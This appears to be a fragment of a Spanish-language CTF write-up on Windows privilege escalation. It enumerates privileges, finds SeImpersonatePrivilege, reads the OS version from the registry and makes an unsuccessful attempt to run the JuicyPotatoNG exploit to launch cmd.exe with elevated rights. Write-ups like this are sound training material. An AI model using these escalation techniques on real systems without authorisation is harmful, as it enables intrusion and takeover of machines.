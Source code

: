 ```null
PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

No puedo ver de primeras en que versión de Windows estoy

```null
PS C:\> systeminfo
Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1 
+ systeminfo
+ ~~~~~~~~~~.
At line:1 char:1
+ systeminfo
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException 
    + FullyQualifiedErrorId : NativeCommandFailed
```

Busco por el registro

```null
PS C:\Users\Hector> reg query "hklm\software\microsoft\windows nt\currentversion" /v ProductName

HKEY_LOCAL_MACHINE\software\microsoft\windows nt\currentversion
    ProductName    REG_SZ    Windows Server 2019 Standard
```

Pero no puedo ejecutar comandos con JuicyPotatoNG

```null
PS C:\Temp> .\JuicyPotatoNG.exe -t * -p C:\Windows\System32\cmd.exe -a "/c whoami"


         JuicyPotatoNG
         by decoder_it & splinter_code

[*] Testing CLSID {854A20FB-2D44-457D-992F-EF13785D2B51} - COM server port 10247 
[-] The privileged process failed to communicate with our COM Server :( Try a different COM port in the -l flag.
```

Hay un usuario llamado Hector

```null
PS C:\Users> dir 


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                                                                                                            
----                -------------         ------ ----                                                                                                                                                            
d-----         2/1/2023  10:07 PM                Administrator                                                                                                                                                   
```